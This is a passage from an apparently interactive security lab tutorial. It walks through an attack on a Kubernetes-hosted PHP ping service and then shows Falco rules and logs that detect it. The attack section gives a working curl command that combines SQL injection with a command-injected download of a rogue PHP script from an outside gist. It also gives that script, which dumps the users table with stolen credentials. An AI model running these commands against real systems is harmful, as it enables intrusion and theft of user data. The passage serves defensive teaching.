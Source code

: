 Once the attacker knows the login details for the database, he could easily write a [small rogue program](https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php), and place it in our server:

<!-- gist raw content, in case it is deleted from the original source!!

<?php
// Connect using the stolen credentials
$link = mysqli_connect("mysql", "root", "foobar", "employees");

// Get all the data from the users table
$re = mysqli_query($link, "SELECT * FROM users");

// Show the data
echo "<pre>";
while ($row = mysqli_fetch_assoc($re)) {
    var_dump($row);
}
echo "</pre>";
 -->
 
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

Finally, he could invoke his program to get a dump of the database contents, including the table with all our users and their passwords.

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}

Detection with Falco
--------------------

Falco help us detect this kind of attacks thanks to these custom rules:

```yaml
- rule: Apache writing to non allowed directory
  desc: Attempt to write to directories that should be immutable
  condition: open_write and container and k8s.ns.name=ping and not (ping_allowed_dirs and proc.name in (apache2))
  output: "Writing to forbidden directory (user=%user.name command=%proc.cmdline file=%fd.name)"
  priority: ERROR
  tags: [filesystem]

- rule: Forbidden network outbound connection
  desc: A non-whitelisted process is trying to reach the Internet
  condition: outbound and container and k8s.ns.name=ping and not proc.name in (ping, apache2)
  output: Forbidden outbound connection (user=%user.name command=%proc.cmdline connection=%fd.name)
  priority: ERROR
  tags: [network]
```

The `open_write` macro is true when a process tries to write to a directory holding system binaries.

The `outbound` macro is true when a network connection to the external world is opened.

Take a look at the logs generated by Falco:

`kubectl logs --selector app=falco | grep Error`{{execute}}

You should see something like:

```log
18:44:04.581760211: Error Writing to forbidden directory (user=www-data command=sh [...] file=/var/www/html/dump.php) [...]
18.44.04.590718953: Error Forbidden outbound connection (user=www-data command=curl https:// [...]
```
